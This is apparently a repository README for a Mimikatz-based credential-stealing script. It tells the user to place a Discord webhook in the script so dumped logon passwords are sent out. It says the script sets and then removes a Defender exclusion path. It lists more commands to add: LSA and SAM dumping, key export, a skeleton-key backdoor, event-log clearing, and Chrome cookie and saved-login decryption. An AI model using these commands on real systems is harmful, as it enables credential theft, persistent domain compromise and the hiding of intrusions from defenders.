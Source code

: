 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject
Extract from SAM
- lsadump::sam
print list of provider keys
- crypto::keys /export
skeleton key
- misc::skeleton
event logs
- event::clear
- event::clear /log:system
Chrome Exfiltration
Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
Login Data
- dpapi::chrome /in:"C:\Users\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 
